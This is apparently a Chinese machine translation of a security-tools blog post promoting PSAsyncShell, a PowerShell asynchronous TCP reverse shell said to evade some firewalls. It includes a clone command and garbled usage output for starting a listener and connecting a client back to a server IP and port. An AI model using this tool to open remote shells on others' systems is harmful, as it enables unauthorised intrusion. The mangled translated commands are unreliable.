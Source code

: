 # PSAsyncShell : PowerShell 异步 TCP 反向外壳

> 原文：<https://kalilinuxtutorials.com/psasyncshell/>

[![](img/1b93d561b8546645cc0524d1fa63d855.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjtKsO5g7QOX_lYRN1PLK_Wqe0fnEbnBMRPr4Ut9R35grK44I9JHIwevMkJOt9EGhMDoihGswnupeNhQwlwpnxCSazoM8MqAzT3nKLSLz5Z1tQtBj9p1qiJB_fDjHw5RmK83bBqz8ed2HzgYqg4D4I7JkfvT_S7GkTb85muzObviscm3eIlEjuLAzWS/s608/PSAsyncShell%20(1).png)

**PSAsyncShell** 是一个用纯 PowerShell 编写的异步 TCP 反向 Shell。

与其他反向 shells 不同，所有的通信和执行流都是异步完成的，允许绕过一些防火墙和一些针对这种远程连接的对策。

此外，该工具还具有命令历史记录、屏幕擦除、文件上传和下载、分块信息和反向 Base64 URL 编码流量等功能。

# 要求

*   PowerShell 4.0 或更高版本

# 下载

建议克隆完整的存储库或下载 zip 文件。您可以通过运行以下命令来实现这一点:

**git 克隆 https://github.com/JoelGMSec/PSAsyncShell**

## 使用

**。\ psasyncshell . PS1-h
*_**_ _ _ _ _ _ _ | _ \/*|/\ _*/*| | |*_*| | | | |*)_ _ _ _ _ _ \/_ \/| | | ' _ \/_ _ _ _ _ _ | ' _ \/_ \ | ' _ \/_ \ |
|/*/*\ _*\\ |*| | | |(_*| |*)| | |/| |*| |*/*/_ _/_*，|*|*| |*/| | | | ^ _ ^ | ^ _ ^ |*/
————————————————
信息:此工具帮助您获得 \ psasyncshell . PS1-s-p Listen _ port
监听来自客户端
的新连接。\ PSAsyncShell . PS1-c server _ IP server _ port
将客户端连接到 PSAsyncShell 服务器
警告:各部分之间的所有信息将以不加密方式发送
下载&上传功能不使用多部分***

[**Download**](https://github.com/JoelGMSec/PSAsyncShell)